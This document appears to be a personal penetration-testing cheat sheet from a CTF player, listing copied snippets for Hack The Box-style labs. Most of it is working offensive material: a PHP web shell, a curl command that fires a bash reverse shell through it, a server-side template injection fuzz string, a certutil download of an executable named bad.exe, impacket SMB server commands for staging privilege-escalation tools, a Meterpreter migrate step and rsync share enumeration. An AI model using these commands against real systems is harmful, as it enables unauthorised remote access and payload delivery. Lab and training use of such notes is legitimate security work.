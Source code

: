 in here is things i have copy pasted since i have to look for them way too often, i take no credit for anything btw

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

### smberver commands

```bash

# accept specific auth
smbserver.py -smb2support <SHARENAME> <LOCALPATH> -username <USERNAME> -password <PASSWORD>
smbsever.py -smb2support POSTEXP /home/tobeatelite/ctf/tools/privesc -username tbe -password tbe

# anon access
smbserver.py <SHARENAME> <LOCALPATH>
smbserver.py POSTEXP /home/tobeatelite/ctf/tools/privesc

```

Meterpreter auto migrate
```
meterpreter > run post/windows/manage/migrate
```

enter docker container 

```
docker exec -it <container_name> bash
```

rsync list
```
rsync --list-only -a rsync://unbalanced.htb/
```

rsync file getter things
```
rsync -a rsync://unbalanced.htb/conf_backups conf_backups
rsync -a rsync://<HOST>/<DIR> <OUTPUT_DIR>
```

remove comments from file
```
cat config.yml | grep -vE "^#" | grep .
```
